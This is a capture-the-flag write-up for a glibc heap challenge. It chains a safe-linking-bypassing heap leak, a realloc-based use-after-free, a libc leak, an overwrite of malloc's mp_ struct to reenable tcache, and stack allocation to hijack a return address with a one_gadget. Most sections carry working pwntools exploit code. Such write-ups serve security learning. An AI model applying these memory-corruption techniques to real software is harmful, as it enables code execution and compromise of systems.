

# Playground
## Challenge description
The challenge allows the user to malloc up to 32 chunks of size <= 0x68 (streams buffering is disable). 
The peculiarity of the challenge is that is launched with a custom env
```docker
ENV ENV_GLIBC_TUNABLES=glibc.malloc.mmap_max=0:glibc.malloc.tcache_count=0:glibc.malloc.tcache_max=0
```
this env will disable tcache, so small allocations will be stored directly in fast bins.
It also allows the user to free, edit, print and resize chunks. The print is done through a call to `puts(chunk_address)`, while the resize uses `realloc(chunk_address, new_size)`. The program store the chunks in a struct `chunk_t`:
```c
typedef struct {
    void *allocated_chunk;

    size_t allocated:1;
    size_t allocated_size:31;
    size_t requested_size:32;
} __attribute__((packed)) chunk_t;
```

When any action different from `malloc` is called the following check is done:
```c
#define INVALID_SIZE(idx) (malloc_usable_size(chunks[idx].allocated_chunk) != chunks[idx].allocated_size || chunks[idx].requested_size > chunks[idx].allocated_size)

...

if (INVALID_SIZE(chunk)){
    panic("invalid chunk size detected");
}
```
where panic print the error and call `exit()`.

The challenge also check is the chunk is allocated checking `chunk.allocated`.

In each interaction differen from malloc the challenge ask for the index of the chunk. This index is read from stdin using `get_uint("index > ") % 32`
```c
size_t get_uint(const char *prompt) {
    size_t value = -1;
    printf("%s", prompt);
    scanf(" %zu%*c", &value);
    return value;
}
```
so it's secure.

## Heap leak
To leak a heap address is simple. The challenge doesn't clear the challenge after allocation, so we can allocate a chunk from fast bins and then print it to leak the next_ptr. To bypass safe linking we put just 1 chunk in fast bins, so the next ptr we are going to read is `0x0 ^ (heap_addr << 12)`. This is enough to calculate the address of each future chunk
```py
malloc(SIZE)
free(0)
malloc(SIZE)
secret = puts(0)
secret = int.from_bytes(secret, "little")
print(f"secret: {hex(secret)}")
```

## UAF (use after free)
To get UAF we will exploit the behavior of the [realloc](https://elixir.bootlin.com/glibc/glibc-2.42/source/malloc/malloc.c#L3561). First of all we notice that if we pass 0 it will free the chunk and return `NULL`. The program check if the realloc failed but it's not enough
```c
chunks[index].requested_size = new_size;

    void *new_chunk = realloc(chunks[index].allocated_chunk, chunks[index].requested_size);

    if (new_chunk == NULL) {
        puts("reallocation failed");
        return;
    }
```
We will get `reallocation failed` but now the chunk is free and we obtained a UAF primitive.

To write into it we need to expand it's size again (the challenge check the size stored in its struct when you try to write in the chunk). We can call resize again, becouse resize when called with a size <= old_size return the same chunk (without calling malloc), and size it's taken from the chunk metadata that we didn't change.
```py
realloc(chunk, 0x0)
realloc(chunk, SIZE)
```

## Libc leak
To leak a libc address we want to put a chunk in the unsorted bins to then print the main arena. The challenge limit the size of our allocation to 0x68 that is not enough to bypass the fast bins. So we need to free a bigger chunk. To do that we can try to poison the size header of an existing chunk and then free it. We can use the UAF to allocate overlapping chunks by poisoning fast bins metadata, but then the program will crush on `INVALID_SIZE(chunk)` check if we try to use the spoofed chunk.

We need to call free without going through the `INVALID_SIZE` check. To do that we can exploit realloc again. We can notice that if we want to allocate a bigger chunk which can't be directly expanded with the top chunk it will allocate a new chunk and copy the content of the old chunk in the new chunk. So the realloc will call malloc - memcpy - free.

We can exploit this behavior by allocating two overlapping chunks. We will put the chunk at the top in the fast bins and call resize on the other chunk. By doing this when realloc will call malloc it will return the overlapped chunk, and when it call memcpy it could overflow into the old chunk. In this way we can overwrite the chunk size just before the realloc call free on it. If we overwrite the size with a valid chunk size bigger than 0x80 the chunk will be stored in unsorted bins and we will be able to leak a libc address.

```py
malloc(ATTACKER_CHUNK_SIZE)  # This chunk will be used to overwrite metadata of the next chunk
malloc(TARGET_CHUNK_SIZE)    # This chunk will metadata will be poisoned
malloc(0x30)                 # Guard to avoid breaking top chunk
malloc(0x20)                 # Guard to avoid consolidation

# Creating a fake chunk overlapping the target chunk
payload = b"A" * 0x30 + p64(0x0) + p64(chunk_size(ATTACKER_CHUNK_SIZE) + 0x1) + p64(secret)
edit(0, payload)

# Exploit resize to get a UAF primitive
resize(0, 0x0)
resize(0, ATTACKER_CHUNK_SIZE)

# Poison fast bins to put the fake chunk in them
payload = p64(secret ^ (target_chunk_address - 0x30))
edit(0, payload)

# Put the fake chunk on top of the fast bins
malloc(ATTACKER_CHUNK_SIZE)

# This payload will be copied in the fake chunk when resize will be called
payload = b"B" * 0x10 + p64(0x0) + p64(0x91)
edit(1, payload)

# Exploit the resize malloc-copy-free to free a chunk with size > 0x80 so it will go in unsorted bins
resize(1, ATTACKER_CHUNK_SIZE)

# Get Libc leak
malloc(0x40)
leak = puts(5)
leak = int.from_bytes(leak, "little")
libc_base = leak - LIBC_ARENA_OFFSET
```

## Reactivating tcache
Now we want to reactivate tcache to gain arbitrary allocation. The goal is to overwrite the `mp_` struct.
```c
struct mp_{
  trim_threshold = 0x20000,
  top_pad = 0x20000,
  mmap_threshold = 0x20000,
  arena_test = 0x8,
  arena_max = 0x0,
  thp_pagesize = 0x0,
  hp_pagesize = 0x0,
  hp_flags = 0x0,
  n_mmaps = 0x0,
  n_mmaps_max = 0x0,
  max_n_mmaps = 0x0,
  no_dyn_threshold = 0x1,
  mmapped_mem = 0x0,
  max_mmapped_mem = 0x0,
  sbrk_base = 0x0,
  tcache_small_bins = 0x1,
  tcache_max_bytes = 0x20,
  tcache_count = 0x0,
  tcache_unsorted_limit = 0x0
};
```
First of all we want to find a 16 bytes alligned address in libc which contain a value that can be interpreted as a valid fast bin chunk size. If we can find this we will be able to allocate in this region. To look for theese values we can use `scan libc_base-libc_end 0x20-0x80` in gef. We find at offset 0x1e8008 the value 0x22, this is near enough to the mp_ struct and has the ismmapped flag set.

The ismmapped flag is usefull to bypass the `INVALID_SIZE` check. This check call [malloc_usable_size](https://elixir.bootlin.com/glibc/glibc-2.42/source/malloc/malloc-debug.c#L407). This function, if the chunk is not mmapped, will check if the next chunk has the prev inuse flag set, if not it will return 0 (to be precise this is the behavior of the `musable` function, which is called by malloc_usable_size). But if the chunk is mmapped the malloc_usable_size will return `chunk_size - 0x10` without doing other checks.

Now we can allocate in this region and then create a fake chunk by writing in the libc memory we just allocated. Then we can allocate in the fake chunk we just created. Iterating this process we can walk through the libc and reach the mp_ struct.
```py
def fast_bin_poison(mangled_target, size):
    malloc(size)
    malloc(size)
    malloc(size)
    resize(8, 0)
    resize(8, size)
    payload = p64(mangled_target)
    edit(8, payload)

    malloc(size)
    malloc(size)

    free(8)
    free(9)
    free(11)
    free(10)

# Start walking in the libc creating faking chunk and allocating them
fast_bin_poison(secret ^ nd, 0x20)
nd = nd + 0x10
payload = p64(0x0) + p64(0x72) + p64(libc_secret)
edit(12, payload)
print(f"ND: {hex(nd)}")

# Iterate the walk
for i in range(13, 17):
    fast_bin_poison(secret ^ nd, SIZE_PASSO)
    nd = nd + SIZE_PASSO - 0x10
    payload = p64(0x71) * ((SIZE_PASSO - 0x20)//8) + p64(0x0) + p64((SIZE_PASSO + 0x10) | 0b10) + p64(libc_secret)
    edit(i, payload)

# Now we reach the mp_ struct
fast_bin_poison(secret ^ nd, SIZE_PASSO)
```
(nd is a variable I used to trace my position in the libc, so it contains the address of the base of the next fake chunk)

The mp_ struct is bigger than 0x68 so we have to split in half our payload and write a fake chunk size inside the mp_ without breaking it too much. I choose to write the fake size in the `no_dyn_threshold` field.
```py
poisoned_mp_ = mp_()
poisoned_mp_.mp_["trim_threshold"] = 0x20000
poisoned_mp_.mp_["top_pad"] = 0x20000
poisoned_mp_.mp_["mmap_threshold"] = 0x20000
poisoned_mp_.mp_["arena_test"] = 0x8
poisoned_mp_.mp_["no_dyn_threshold"] = 0x72
poisoned_mp_.mp_["sbrk_base"] = secret << 12
poisoned_mp_.mp_["tcache_small_bins"] = 0x1
poisoned_mp_.mp_["tcache_max_bytes"] = 0x410
poisoned_mp_.mp_["tcache_count"] = 0x7

mp_digest = poisoned_mp_.digest()

# Walking inside the mp_ struct without breaking it too much
payload = p64(0x0) * 2 + mp_digest[:0x50]
edit(17, payload[:-1])

fast_bin_poison(secret ^ nd, SIZE_PASSO)

# Reactivating tcache
payload = mp_digest[0x50:0x80]
edit(18, payload)
```
I put the `p64(0x0) * 2` becouse my allocation was 2 qword above the mp_ struct.

## Tcache poisoning
Now through tcache poisoning we can leak argv (so a stack address) and then we can allocate in the stack to overwrite the `chunks` variable and redirect it to a fake `chunk_t` struct that we can create in a normal heap allocation.
We can set the fake struct such that we allocate in the stack frame of a function without the canary. I think the best choiche is `get_uint`.
```py
# Allocating where the chunks variable is stored to overwrite it
free(8)
malloc(0x38)
malloc(0x38)
free(8)
resize(11, 0)
resize(11, 0x38)
payload = p64(secret ^ (rbp - 0x10))
edit(11, payload)
malloc(0x38)
malloc(0x38)

# Creating a fake chunk_t struct to write over the return address of chunk_edit
fake_struct_address = (secret << 12) | 0x010
print(f"Fake struct: {hex(fake_struct_address)}")
malloc(0x50)
payload = flat(
    0x0,
    0x0,
    0x0,
    0x0,
    chunk_edit_stack + 0x8,
    (0x630 << 32) | (0x630 << 1) | 0x1,
    fake_struct_address,
    (0x50 << 32) | (0x60 << 1) | 0x1
)
edit(20, payload)

# Overwriting the struct address with the fake one
edit(19, p64(fake_struct_address))
```

## RCE
Now we have an allocation on the stack frame of `get_uint`. We put the allocation such that the size of the chunk overlap with the `value` variable, in this way the chunk size will be exactly our input when the function ask for the chunk index. I choose a size of 0x640 (in the struct is stored the usable size which is 0x10 less), so the chunk has to be at index `0x642 % 32 = 2` (0x642 becouse we need the ismmapped flag to bypass `INVALID_SIZE`). At this point we can call edit on index 1602 and we will be able to write above the stack frame of the current function (which is not protected by canary). To get the shell I just overwritten the return address with a one_gadget



(btw this one_gadget it's very powerfull. I'm surprised to find it in the latest libc version).

```py
# Overwrite the return address to call one_gadget
payload = flat(
    b"A" * 0x10,
    libc_base + ONE_GADGET_OFFSET
)
p.sendline(b"e")
p.recvuntil(b"> ")
p.sendline(str(1602).encode())
p.recvuntil(b"> ")
p.sendline(payload)

p.interactive()
```